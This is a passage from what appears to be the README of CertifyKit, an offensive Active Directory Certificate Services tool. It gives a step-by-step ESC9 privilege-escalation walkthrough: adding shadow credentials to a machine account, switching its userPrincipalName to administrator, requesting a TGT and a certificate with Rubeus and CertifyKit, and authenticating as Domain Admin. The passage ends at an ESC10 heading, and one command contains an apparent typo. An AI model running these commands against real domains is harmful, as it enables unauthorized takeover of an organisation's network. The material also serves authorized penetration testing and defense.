 ```
CertifyKit.exe download /issue /id:145
```

Download the certificate

```
CertifyKit.exe download /id:145
```

#### ESC9 - *CT_FLAG_NO_SECURITY_EXTENSION*

Assume 

- VulnTemplate set attribute `msPKI-Enrollment-Flag` to value `NO_SECURITY_EXTENSION` 
- VulnTemplate contain suitable `EKU` 
- `StrongCertificateBindingEnforcement` set to 0 or 1 (default is 1)
- VulnTemplate set attribute `msPKI-Certificate-Name-Flag`to value `SUBJECT_ALT_REQUIRE_UPN`

- Write privilege over a user account or a machine account

Example of machine account scenario

Add "Shadow Credential" to machine account Mypc 

```
CertifyKit.exe account /machineLmypc /shadow /outfile:mypc-shadow.pfx
```

Change `userPrincipalName` of Mypc to Domain Admin 

```
CertifyKit.exe account /machine:mypc /upn:administrator
```

Authenticate as Mypc and inject TGT

```
Rubeus.exe /user:mypc /certificate:mypc-shadow.pfx /ptt
```

Enroll a new certificate for the vulnerable template

```
CertifyKit.exe request /ca:corpadcs.corp.local\corp-CORPADCS-CA-1 /template:VulnTemplate /install
```

Clear `userPrincipalName` of Mypc

```
CertifyKit.exe account /user:mypc /upn /clear
```

Authenticate as Domain Admin

```
Rubeus.exe /user:administrator /certificate:4E4C47F105D71D353CC45BF3F33B83B2721B0416
```

#### ESC10 - *Certificate Mappings after Restoring Old Value that before patch*

**Case 1 (Kerberos Certificate Mapping)**
